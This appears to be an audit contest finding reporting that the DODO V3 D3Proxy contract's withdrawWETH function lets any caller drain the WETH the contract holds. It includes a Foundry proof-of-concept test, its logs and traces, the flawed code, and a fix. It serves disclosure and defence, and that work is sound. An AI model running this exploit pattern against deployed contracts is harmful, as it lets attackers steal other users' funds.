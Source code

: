 ravikiran.web3

high

# Anyone can steal funds in D3Proxy contract

## Summary
Using withdrawWETH function of D3Proxy contract, any one can withdraw the WETH funds in the contract.

## Vulnerability Detail
using withdrawWETH on D3Proxy, the caller will can send the WEth available in D3Proxy to any address including himself.

Below is the POC to demonstrate.

```solidity
function testStealWEth() public {
        console2.log("User1 has 10 Ether");
        vm.deal(user1, 10 ether);

        vm.startPrank(user1);
        console2.log("User1 deposits 10 Ether in weth");
        weth.deposit{value: 10 ether}();
        console2.log("User1 WEth balance",weth.balanceOf(address(user1)));
        console2.log("User1 deposits 10 weth to D3Proxy");
        weth.transfer(address(d3Proxy), 10 ether);
        vm.stopPrank();

        
        console2.log("d3Proxy Eth balance",weth.balanceOf(address(d3Proxy)));
        console2.log("User1 WEth balance after transfer",weth.balanceOf(address(user1)));

        // User 3 steals funds from D3Proxy contract.
        console2.log("User3 Saw 10 Weth in D3Proxy sitting idle");
        console2.log("User3 attempts to withdraw 1 ether");
        d3Proxy.withdrawWETH(user3, 1 ether);
        console2.log("d3Proxy Eth balance",weth.balanceOf(address(d3Proxy)));
        console2.log("User3 Eth balance",user3.balance);
        console2.log("User1 Eth balance",user1.balance);

    
```
Check if User3 can do any thing with the funds he received in his account. As a test send 1 ether to user1 account to confirm that he has control on funds.

```solidity
    console2.log("verify - User3 can do anything with his Eth balance",user3.balance);
        vm.startPrank(user3);
        payable(user1).transfer(1 ether);
        vm.stopPrank();
        console2.log("User3 Eth balance",user3.balance);
        console2.log("User1 Eth balance",user1.balance);
    }
```
Logs in Foundry
Logs:
  User1 has 10 Ether
  User1 deposits 10 Ether in weth
  User1 WEth balance 10000000000000000000
  User1 deposits 10 weth to D3Proxy
  d3Proxy Eth balance 10000000000000000000
  User1 WEth balance after transfer 0
  **User3 Saw 10 Weth in D3Proxy sitting idle**
  User3 attempts to withdraw 1 ether
  d3Proxy Eth balance 0
  **User3 Eth balance 10000000000000000000**(Stolen the funds)
  User1 Eth balance 0
  verify - User3 can do anything with his Eth balance 10000000000000000000
  **User3 Eth balance 9000000000000000000
  User1 Eth balance 1000000000000000000**

Traces:
  [137563] D3ProxyTest::testStealWEth() 
    ├─ [0] console::log(User1 has 10 Ether) [staticcall]
    │   └─ ← ()
    ├─ [0] VM::deal(0x0000000000000000000000000000000000000457, 10000000000000000000) 
    │   └─ ← ()
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000457) 
    │   └─ ← ()
    ├─ [0] console::log(User1 deposits 10 Ether in weth) [staticcall]
    │   └─ ← ()
    ├─ [23914] WETH9::deposit{value: 10000000000000000000}() 
    │   ├─ emit Deposit(dst: 0x0000000000000000000000000000000000000457, wad: 10000000000000000000)
    │   └─ ← ()
    ├─ [519] WETH9::balanceOf(0x0000000000000000000000000000000000000457) [staticcall]
    │   └─ ← 10000000000000000000
    ├─ [0] console::log(User1 WEth balance, 10000000000000000000) [staticcall]
    │   └─ ← ()
    ├─ [0] console::log(User1 deposits 10 weth to D3Proxy) [staticcall]
    │   └─ ← ()
    ├─ [20271] WETH9::transfer(0xe8dc788818033232EF9772CB2e6622F1Ec8bc840, 10000000000000000000) 
    │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000457, to: 0xe8dc788818033232EF9772CB2e6622F1Ec8bc840, value: 10000000000000000000)
    │   └─ ← true
    ├─ [0] VM::stopPrank() 
    │   └─ ← ()
    ├─ [519] WETH9::balanceOf(0xe8dc788818033232EF9772CB2e6622F1Ec8bc840) [staticcall]
    │   └─ ← 10000000000000000000
    ├─ [0] console::log(d3Proxy Eth balance, 10000000000000000000) [staticcall]
    │   └─ ← ()
    ├─ [519] WETH9::balanceOf(0x0000000000000000000000000000000000000457) [staticcall]
    │   └─ ← 0
    ├─ [0] console::log(User1 WEth balance after transfer, 0) [staticcall]
    │   └─ ← ()
    ├─ [0] console::log(User3 Saw 10 Weth in D3Proxy sitting idle) [staticcall]
    │   └─ ← ()
    ├─ [0] console::log(User3 attempts to withdraw 1 ether) [staticcall]
    │   └─ ← ()
    ├─ [36523] 0xe8dc788818033232EF9772CB2e6622F1Ec8bc840::withdrawWETH(0x0000000000000000000000000000000000000d05, 1000000000000000000) 
    │   ├─ [519] WETH9::balanceOf(0xe8dc788818033232EF9772CB2e6622F1Ec8bc840) [staticcall]
    │   │   └─ ← 10000000000000000000
    │   ├─ [7440] WETH9::withdraw(10000000000000000000) 
    │   │   ├─ [95] 0xe8dc788818033232EF9772CB2e6622F1Ec8bc840::fallback{value: 10000000000000000000}() 
    │   │   │   └─ ← ()
    │   │   ├─ emit Withdrawal(src: 0xe8dc788818033232EF9772CB2e6622F1Ec8bc840, wad: 10000000000000000000)
    │   │   └─ ← ()
    │   ├─ [0] 0x0000000000000000000000000000000000000d05::fallback{value: 10000000000000000000}() 
    │   │   └─ ← ()
    │   └─ ← ()
    ├─ [519] WETH9::balanceOf(0xe8dc788818033232EF9772CB2e6622F1Ec8bc840) [staticcall]
    │   └─ ← 0
    ├─ [0] console::log(d3Proxy Eth balance, 0) [staticcall]
    │   └─ ← ()
    ├─ [0] console::log(User3 Eth balance, 10000000000000000000) [staticcall]
    │   └─ ← ()
    ├─ [0] console::log(User1 Eth balance, 0) [staticcall]
    │   └─ ← ()
    ├─ [0] console::log(verify - User3 can do anything with his Eth balance, 10000000000000000000) [staticcall]
    │   └─ ← ()
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000d05) 
    │   └─ ← ()
    ├─ [0] 0x0000000000000000000000000000000000000457::fallback{value: 1000000000000000000}() 
    │   └─ ← ()
    ├─ [0] VM::stopPrank() 
    │   └─ ← ()
    ├─ [0] console::log(User3 Eth balance, 9000000000000000000) [staticcall]
    │   └─ ← ()
    ├─ [0] console::log(User1 Eth balance, 1000000000000000000) [staticcall]
    │   └─ ← ()
    └─ ← ()

## Impact

## Code Snippet

https://github.com/sherlock-audit/2023-06-dodo/blob/main/new-dodo-v3/contracts/DODOV3MM/periphery/D3Proxy.sol#L198-L203

In the below code, note how the function ignores the minAmount and instead transfers the balance of the contract to "To"
address.

```solidity
function withdrawWETH(address to, uint256 minAmount) external payable {
        uint256 withdrawAmount = IWETH(_WETH_).balanceOf(address(this));
        require(withdrawAmount >= minAmount, "D3PROXY_WETH_NOT_ENOUGH");

        _withdrawWETH(to, withdrawAmount);
    }
```

https://github.com/sherlock-audit/2023-06-dodo/blob/main/new-dodo-v3/contracts/DODOV3MM/periphery/D3Proxy.sol#L227-L230

```solidity
function _withdrawWETH(address to, uint256 withdrawAmount) internal {
        IWETH(_WETH_).withdraw(withdrawAmount);
        _safeTransferETH(to, withdrawAmount);
    }
```

## Tool used

Manual Review & Foundry testing for POC.

## Recommendation
It Looks like an error in logic. It should operate on msg.sender's balance. The caller should be able to withdraw his own funds and can ofcourse send those funds to a specific address. This function should not operate on contract's balance for transfer. It can check for available funds to be greater than minAmount and move funds of the caller.
